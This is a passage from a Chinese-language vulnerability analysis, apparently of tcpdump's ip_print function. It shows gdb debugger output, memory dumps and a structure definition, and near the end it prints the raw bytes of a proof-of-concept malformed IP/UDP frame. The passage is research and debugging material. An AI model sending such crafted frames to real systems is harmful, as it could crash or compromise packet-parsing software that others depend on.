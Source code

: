 ```
Guessed arguments:
arg[0]: 0x8233a20 --> 0x0 
arg[1]: 0xbfffe18c --> 0xb7a16094 --> 0x3de60045 
[------------------------------------stack-------------------------------------]
0000| 0xbfffe150 --> 0x8233a20 --> 0x0 
0004| 0xbfffe154 --> 0xbfffe18c --> 0xb7a16094 --> 0x3de60045 
0008| 0xbfffe158 --> 0x49c3 
0012| 0xbfffe15c --> 0x0 
0016| 0xbfffe160 --> 0xb7fff000 --> 0x23f3c 
0020| 0xbfffe164 --> 0x80fa1fe --> 0x504455 ('UDP')
0024| 0xbfffe168 --> 0xb7a16094 --> 0x3de60045 
0028| 0xbfffe16c --> 0x8233a20 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 12, 0x08073e54 in ip_print ()
```

这个函数的第一个参数并不知道是什么意思，启动参数？？？第二个是一个结构体指针，这个结构体如下，有一个`len`字段
```
struct ip_print_demux_state {
	const struct ip *ip;
	const u_char *cp;
	u_int   len, off;
	u_char  nh;
	int     advance;
};
```

既然有长度字段，我们可以看看这个指针指向的数据是不是我们输入的数据帧
```
gdb-peda$ x/16x 0xbfffe18c
0xbfffe18c:	0xb7a16094	0xb7a160a8	0x0000e629	0x00004000
0xbfffe19c:	0xb7ffd311	0x00000001	0xb7a16094	0x00000014
0xbfffe1ac:	0x86bf0200	0x00000000	0x00000000	0xb7c2f2e5
0xbfffe1bc:	0x08164000	0x08235058	0x00000000	0xbfffe1f8
```

咦？对比了我们的Poc数据之后发现并没有一样，喵喵喵？？？

突然发现可能这只是个存储指针的地址，比如
```
arg[1]: 0xbfffe18c --> 0xb7a16094 --> 0x3de60045
```

这样就和我们输入的数据帧一样了
```
gdb-peda$ x/16x 0xb7a16094
0xb7a16094:	0x3de60045	0x00407ff3	0xc6301140	0x6801010a
0xb7a160a4:	0x0202020a	0x000d8e02	0xe800004b	0x00000012
0xb7a160b4:	0x51c61f00	0x24009735	0x6fdf7a8c	0x00450008
0xb7a160c4:	0x7ff33de6	0x11400040	0x010ac630	0x00000001
```

对比Poc的数据帧
```
\x00\x00\x00\x00\x00\x00\x00\x00\x8c\x7a\xdf\x6f\x08\x00(指针指向此处=>)\x45\x00\xe6\x3d\xf3\x7f\x40\x00\x40\x11\x30\xc6\x0a\x01\x01\x68\x0a\x02\x02\x02\x02\x8e\x0d\x00\x4b\x00\x00\xe8\x12\x00\x00\x00\x00\x1f\xc6\x51\x35\x97\x00\x24\x8c\x7a\xdf\x6f\x08\x00\x45\x00\xe6\x3d\xf3\x7f\x40\x00\x40\x11\x30\xc6\x0a\x01\x01
```
